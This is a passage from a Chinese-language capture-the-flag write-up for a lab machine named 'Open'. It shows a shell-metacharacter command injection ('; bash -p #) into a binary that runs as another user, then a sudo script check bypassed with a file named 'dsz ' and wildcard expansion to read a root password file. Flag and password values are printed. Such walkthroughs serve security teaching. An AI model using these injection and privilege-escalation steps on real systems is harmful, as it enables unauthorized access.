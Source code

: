 该程序会将其获取的命令行参数直接拼接到一个系统命令字符串中并执行，并且会以用户 `miao` (UID 1000) 的权限运行。

利用此漏洞，通过注入 `bash -p` 命令，我们成功获得了一个拥有 `miao` 用户权限的 shell。

```bash
www-data@Open:/opt$ ./echo "'; id; whoami #"
执行命令: echo '[用户输入]: '; id; whoami #'
[用户输入]: 
uid=1000(miao) gid=1000(miao) groups=1000(miao),33(www-data)
miao

www-data@Open:/opt$ ./echo "'; bash -p #"
执行命令: echo '[用户输入]: '; bash -p #'
[用户输入]: 
miao@Open:/opt$ id
uid=1000(miao) gid=1000(miao) groups=1000(miao),33(www-data)
```

同时，在 `miao` 的家目录下，找到了第一个 flag 文件 `user.txt`。

```bash
miao@Open:/opt$ cat /home/miao/user.txt 
flag{user-b026324c6904b2a9cb4b88d6d61c81d1}
```

#### 2. 从 `miao` 到 `root`

成为 `miao` 用户后，执行 `sudo -l` 发现该用户可以无密码执行 `/opt/hello.sh` 脚本。

```bash
miao@Open:/opt$ sudo -l
...
User miao may run the following commands on Open:
    (ALL) NOPASSWD: /opt/hello.sh
```

查看该脚本内容，发现它对输入参数 "dsz" 做了判断。如果参数完全等于 "dsz"，脚本会直接退出。然而，脚本使用了 `[ $1 = "dsz" ]` 这种不严谨的判断方式。

```bash
miao@Open:/opt$ cat hello.sh 
PATH=/usr/bin
[ -n "$1" ] || exit 1
[ "$1" = "dsz" ] && exit 2
#[ $1 = "dsz" ] && cat /root/password.txt | md5sum | awk '{print $1}'
[ $1 = "dsz" ] && cat /root/password.txt
echo "Goodbye!"
```

我们可以通过 `bash` 的通配符扩展（globbing）来绕过这个检查。
1.  在 `/tmp` 目录下创建一个名为 `"dsz "`（注意末尾有空格）的文件。
2.  执行 `sudo /opt/hello.sh *`，此时 `*` 会被 shell 扩展为文件名 `"dsz "`，从而绕过了 `[ "$1" = "dsz" ]` 的检查，并成功执行了 `cat /root/password.txt` 命令。

```bash
miao@Open:/tmp$ touch 'dsz '
miao@Open:/tmp$ sudo /opt/hello.sh *
6cd1f22e65d26246530ff7a2528144e3
Goodbye!
```
